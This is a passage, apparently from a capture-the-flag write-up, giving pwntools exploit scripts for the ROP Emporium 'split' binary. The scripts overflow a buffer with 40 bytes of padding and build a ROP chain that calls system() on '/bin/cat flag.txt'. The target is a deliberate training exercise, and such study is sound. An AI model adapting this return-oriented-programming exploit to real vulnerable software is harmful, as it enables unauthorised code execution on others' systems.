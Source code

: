 ```python
# Send the payload to a new copy of the process
io = start()
io.sendline(payload)
io.recv()

# Get our flag!
flag = io.recvline()
success(flag)
```

autopwn script
-----

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./split', checksec=False)
p = process()

# How many bytes to return address?
padding = 40

# Locate the functions/strings we need
bincat_addr = next(elf.search(b'/bin/cat'))

# ROP
rop = ROP(elf)  # Load rop gadgets
rop.system(bincat_addr)  # Call system with /bin/cat flag.txt address

pprint(rop.gadgets)
print(rop.dump())

# Rop chain
rop_chain = rop.chain()
info("rop chain: %r", rop_chain)

# Craft a new payload which puts the "target" address at the correct offset
payload = flat(
    asm('nop') * padding,
    rop_chain
)

# Save payload to file
write("payload", payload)

# PWN
p.sendlineafter('>', payload)
p.recvuntil('Thank you!\n')

# Get our flag!
flag = p.recv()
success(flag)
```
***Thats_it_for_today_on_splits***
